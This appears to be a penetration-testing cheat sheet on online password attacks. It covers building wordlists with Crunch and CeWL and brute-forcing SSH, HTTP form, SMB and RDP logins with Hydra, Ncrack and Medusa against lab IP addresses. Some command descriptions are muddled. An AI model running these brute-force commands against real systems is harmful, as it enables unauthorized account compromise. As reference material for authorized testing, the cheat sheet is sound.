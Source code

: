 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

>crunch [min] [max] [characterset] -t [pattern] -o [output filename]

min = minimum password length
max = maximum password length
characterset = The character set to be used in generating the passwords
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728. 

>  ./crunch 1 1 -p pen test lab

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

>./crunch 6 6 0123456789 -b 1mb -o START

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> ./crunch 3 3 -f charset.lst lalpha -o START -c 20

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is [abcdefghijklmnopqrstuvwxyz].

> ./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

>cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org


## Bruteforce
### Hydra 

> hydra -l username -p passwordlist.txt [target (ip address and port)]

### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh

-l = the username 

-L = list of usernames (if you don't know the login)

-p = password (never used) 

-P - the directory for the wordlists (file)

-M FILE   list of servers to be attacked in parallel, one entry per line 


Less common options:
-vV = verbose mode, shows you every login attempt hydra tries 

-s = specify the port on which we running our attack 

-e ns = checks for blank or no password fields 

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]

#### SMB Bruteforce
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb



### Ncrack

#### RDP bruteforce

> ncrack -vv --user offsec -P passwordfile.txt  rdp://192.168.11.35

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`



